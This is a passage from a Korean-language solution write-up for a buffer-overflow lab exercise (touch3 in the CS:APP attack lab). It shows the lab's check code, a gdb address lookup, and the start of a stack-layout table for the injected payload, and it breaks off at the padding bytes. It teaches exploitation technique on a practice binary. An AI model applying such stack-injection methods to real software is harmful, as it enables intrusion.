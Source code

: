 ```c
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

 위 코드를 보면, `touch3`에서는 `cookie`의 값을 직접적으로 받지 않고, cookie를 문자열 형태의 주소로 받아서 비교하는 것을 알 수 있다. 그렇기 때문에 우리는 bof를 이용하여 스택에 문자열을 삽입한 다음, 해당 문자열의 주소를 `rdi`에 넣은 후에 `touch3`을 호출하여 이 문제를 해결할 수 있다.



### Solution

####  Check Address of `touch3`

```
gdb-peda$ p touch3
$2 = {void (char *)} 0x4019b6 <touch3>
```
#### Compose
<table>
    <thead>
        <tr>
            <th style="text-align: right; width: 11%"></th>
            <th style="text-align: center; width: 18%">hex</th>
            <th>Description</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td style="text-align: right">
                <-24>
            </td>
            <td style="text-align: left">
                00 00 00 00 00 00 00 00
            </td>
            <td>
                buffer for <code>buf</code>
            </td>
        </tr>
            <tr>
            <td style="text-align: right">
                <-16>
            </td>
            <td style="text-align: left">
                00 00 00 00 00 00 00 00
            </td>
            <td>
                buffer for <code>buf</code>
            </td>
        </tr>
            <tr>
            <td style="text-align: right">
                <-8>
            </td>
            <td style="text-align: left">
                00 00 00 00 00 00 00 00
            </td>
            <td>
                buffer for <code>buf</code>